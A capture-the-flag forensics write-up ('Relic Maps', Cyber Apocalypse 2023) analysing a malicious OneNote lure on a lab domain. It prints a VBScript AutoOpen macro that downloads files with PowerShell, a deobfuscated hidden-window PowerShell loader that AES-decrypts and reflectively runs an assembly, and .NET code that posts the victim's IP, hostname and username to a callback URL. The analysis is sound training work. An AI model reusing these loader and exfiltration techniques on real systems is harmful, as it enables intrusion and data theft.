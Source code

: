 # Cyber Apocalypse 2023

## Relic Maps

> Pandora received an email with a link claiming to have information about the location of the relic and attached ancient city maps, but something seems off about it. Could it be rivals trying to send her off on a distraction? Or worse, could they be trying to hack her systems to get what she knows?Investigate the given attachment and figure out what's going on and get the flag. The link is to http://relicmaps.htb:/relicmaps.one. The document is still live (relicmaps.htb should resolve to your docker instance).
>
>  Author: N/A
>

Tags: _forensics_

## Solution
For this challenge no files are provided, only the link in the hint. To make the site reachable the domain needs to be added to `/etc/hosts`. After doing so the file can be downloaded. Running `file` on the file only leads `relicmaps.one: data`.

Next up, `binwalk`, this indeed leads a few files.
```bash
$ binwalk --dd ".*" relicmaps.one

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
10388         0x2894          PNG image, 1422 x 900, 8-bit/color RGBA, non-interlaced
10924         0x2AAC          Zlib compressed data, best compression
47215         0xB86F          HTML document header
48865         0xBEE1          HTML document footer
50084         0xC3A4          PNG image, 32 x 32, 8-bit/color RGBA, non-interlaced
50636         0xC5CC          PNG image, 440 x 66, 8-bit/color RGB, non-interlaced
50727         0xC627          Zlib compressed data, compressed
```

Most notably the HTML document. It has some malicious VBScript in it that seems to download more files.

```VB
// snip...
Sub AutoOpen()
    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/uploads/soft/topsecret-maps.one -Out>
    ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/get/DdAbds/window.bat -OutFi>
End Sub
// snip...
```

 Fetching `topsecret-maps.one` seems like a dead end, but `windows.bat` is interesting:

```bash
@echo off
set "eFlP=set "
%eFlP%"ualBOGvshk=ws"
%eFlP%"PxzdwcSExs= /"
%eFlP%"ndjtYQuanY=po"
%eFlP%"cHFmSnCqnE=Wi"
%eFlP%"CJnGNBkyYp=co"
%eFlP%"jaXcJXQMrV=rS"
...
:: SEWD/RSJz4q93dq1c+u3tVcKPbLfn1fTrwl01pkHX3+NzcJ42N+ZgqbF+h+S76xsuroW3DDJ50IxTV/PbQICDVPjPCV3DYvCc244F7AFWphPY3kRy+618kpRSK2jW9RRcOnj8dOuDyeLwHfnBbkGgLE4KoSttWBplznkmb1l50KEFUavXv9ScKbGilo9+85NRKfafzpZjkMhwaCuzbuGZ1+5s9CdUwvo3znUpgmPX7S8K4+uS3SvQNh5iPNBdZHmyfZ9SbSATnsXlP757ockUsZTEdltSce4ZWF1779G6RjtKJcK4yrHGpRIZFYJ3pLosmm7d+SewKQu1vGJwcdLYuHOkdm5mglTyp20x7rDNCxobvCug4Smyrbs8XgS3R4jHMeUl7gdbyV/eTu0bQAMJnIql2pEU/dW0krE90nlgr3tbtitxw3p5nUP9hRYZLLMPOwJ12yNENS7Ics1ciqYh78ZWJiotAd4DEmAjr8zU4U...
...
%CJnGNBkyYp%%UBndSzFkbH%%ujJtlzSIGW%%nwIWiBzpbz%%cHFmSnCqnE%%kTEDvsZUvn%%JBRccySrUq%%ZqjBENExAX%%XBucLtReBQ%%BFTOQBPCju%%vlwWETKcZH%%NCtxqhhPqI%%GOPdPuwuLd%%YcnfCLfyyS%%JPfTcZlwxJ%%ualBOGvshk%%xprVJLooVF%%cIqyYRJWbQ%%jaXcJXQMrV%%pMrovuxjjq%%KXASGLJNCX%%XzrrbwrpmM%%VCWZpprcdE%%tzMKflzfvX%%ndjtYQuanY%%chXxviaBCr%%tHJYExMHlP%%WmUoySsDby%%UrPeBlCopW%%lYCdEGtlPA%%eNOycQnIZD%%PxzdwcSExs%%VxroDYJQKR%%zhNAugCrcK%%XUpMhOyyHB%%OOOxFGwzUd%
cls
%dzPrbmmccE%%xQseEVnPet%
%eDhTebXJLa%%vShQyqnqqU%%KsuJogdoiJ%%uVLEiIUjzw%%SJsEzuInUY%%gNELMMjyFY%%XIAbFAgCIP%%weRTbbZPjT%%yQujDHraSv%%zwDBykiqZZ%%nfEeCcWKKK%%MtoMzhoqyY%%igJmqZApvQ%%SIQjFslpHA%%KHqiJghRbq%%WSRbQhwrOC%%BGoTReCegg%%WYJXnBQBDj%%SIneUaQPty%%WTAeYdswqF%%E
```

This obviously is obfuscated code, to make things more clear we need to deobfuscate the whole thing. Luckily the obfuscation can be easily reverted by replacing the random string constants with what they are set to. While doing this by hand is cumbersome we can quickly write a [`script`](deobfuscate.py).

```python
with open("data.txt", "r") as file:
    lines = file.readlines()

d = {}
for line in lines:
    parts = line.split("=", 1)
    d[parts[0]] = parts[1].rstrip("\n")

print(d)

code1 = """%CJnGNBkyYp%%UBndSz..."

for x, y in d.items():
    code1 = code1.replace("%"+x+"%", y)

print(code1)
```

The data provided is from the batch script, but roughly prepared for parsing

```
ualBOGvshk=ws
PxzdwcSExs= /
ndjtYQuanY=po
cHFmSnCqnE=Wi
CJnGNBkyYp=co
jaXcJXQMrV=rS
nwIWiBzpbz=:\
xprVJLooVF=Po
tzMKflzfvX=0\
VCWZpprcdE=1.
XzrrbwrpmM=\v
BFTOQBPCju=st
WmUoySsDby=he
tHJYExMHlP=rs
JPfTcZlwxJ=do
VxroDYJQKR=y 
UBndSzFkbH=py
KXASGLJNCX=ll
vlwWETKcZH=em
OOOxFGwzUd=e
NCtxqhhPqI=32
GOPdPuwuLd=\W
XUpMhOyyHB=ex
cIqyYRJWbQ=we
```

After cleaning the result up a bit, we end up with an readable version of the script:

```PowerShell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y %~0.exe

cls
cd %~dp0
%~nx0.exe -noprofile -windowstyle hidden -ep bypass -command $eIfqq = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('%~f0').Split([Environment]::NewLine)

foreach ($YiLGW in $eIfqq) { 
	if ($YiLGW.StartsWith(':: ')) {  
		$VuGcO = $YiLGW.Substring(3)
 		break
 	}
}

$uZOcm = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($VuGcO)
$BacUA = New-Object System.Security.Cryptography.AesManaged
$BacUA.Mode = [System.Security.Cryptography.CipherMode]::CBC
$BacUA.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$BacUA.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=')
$BacUA.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('2hn/J717js1MwdbbqMn7Lw==')
$Nlgap = $BacUA.CreateDecryptor()
$uZOcm = $Nlgap.TransformFinalBlock($uZOcm, 0, $uZOcm.Length)
$Nlgap.Dispose()
$BacUA.Dispose()
$mNKMr = New-Object System.IO.MemoryStream(, $uZOcm)
$bTMLk = New-Object System.IO.MemoryStream
$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress)
$NVPbn.CopyTo($bTMLk)
$NVPbn.Dispose()
$mNKMr.Dispose()
$bTMLk.Dispose()
$uZOcm = $bTMLk.ToArray()
$gDBNO = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($uZOcm)
$PtfdQ = $gDBNO.EntryPoint
$PtfdQ.Invoke($null, (, [string[]] ('%*')))
```

While some obfuscation remains (reversed function names) the script is well understandable. It basically copies powershell to the local folder and renames the exe to match the scripts name.

```PowerSHell
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y %~0.exe

cls
cd %~dp0
```

After that the script reads itself and scans for a line that starts with ':: '. This is the encrypted payload.

```PowerSHell
%~nx0.exe -noprofile -windowstyle hidden -ep bypass -command $eIfqq = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('%~f0').Split([Environment]::NewLine)

foreach ($YiLGW in $eIfqq) { 
	if ($YiLGW.StartsWith(':: ')) {  
		$VuGcO = $YiLGW.Substring(3)
 		break
 	}
}
```

Then the payload gets decrypted and decompressed. The `key` and `iv` for AES decryption is provided as base64 decoded string. In the last step an assembly instance is created and invoked. 

If PowerShell is at hand we can extract the payload with the script (after removing the invocation of the payload of course). Otherwise a small python script [`can do the same thing`](extract.py):

```python
import base64
from Crypto.Cipher import AES
import gzip

with open("payload") as file:
    lines = file.readlines()

key = base64.b64decode("0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=")
iv = base64.b64decode("2hn/J717js1MwdbbqMn7Lw==")
payload = base64.b64decode(lines[0])

cipher = AES.new(key, AES.MODE_CBC, iv)
decrypted = cipher.decrypt(payload)
decompressed = gzip.decompress(payload)

with open("payload.decrypted", "wb") as out:
    out.write(decompressed)
```

Checking the extracted payload with `file` and indeed it's a .NET executable.
```bash
$ file payload
payload: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

This can quickly be decompiled with ILSpy.
```C#
private static void Main(string[] args)
{
	IPAddress iPAddress = Dns.GetHostAddresses(Dns.GetHostName()).FirstOrDefault((IPAddress ip) => ip.AddressFamily == AddressFamily.InterNetwork);
	string machineName = Environment.MachineName;
	string userName = Environment.UserName;
	DateTime now = DateTime.Now;
	string text = "HTB{0neN0Te?_iT'5_4_tr4P!}";
	string s = $"i={iPAddress}&n={machineName}&u={userName}&t={now}&f={text}";
	Aes aes = Aes.Create("AES");
	aes.Mode = CipherMode.CBC;
	aes.Key = Convert.FromBase64String("B63PbsPUm3dMyO03Cc2lYNT2oUNbzIHBNc5LM5Epp6I=");
	aes.IV = Convert.FromBase64String("dgB58uwgaohVelj4Xhs7RQ==");
	aes.Padding = PaddingMode.PKCS7;
	ICryptoTransform cryptoTransform = aes.CreateEncryptor();
	byte[] bytes = Encoding.UTF8.GetBytes(s);
	string text2 = Convert.ToBase64String(cryptoTransform.TransformFinalBlock(bytes, 0, bytes.Length));
	Console.WriteLine(text2);
	HttpClient httpClient = new HttpClient();
	HttpRequestMessage httpRequestMessage = new HttpRequestMessage
	{
		RequestUri = new Uri("http://relicmaps.htb/callback"),
		Method = HttpMethod.Post,
		Content = new StringContent(text2, Encoding.UTF8, "application/json")
	};
	Console.WriteLine(httpRequestMessage);
	HttpResponseMessage result = httpClient.SendAsync(httpRequestMessage).Result;
	Console.WriteLine(result.StatusCode);
	Console.WriteLine(result.Content.ReadAsStringAsync().Result);
}
```

Reading through that it seems invoking the script would have called back to relicmaps.htb with some user information. Appart from that the flag is ready for capture `HTB{0neN0Te?_iT'5_4_tr4P!}`
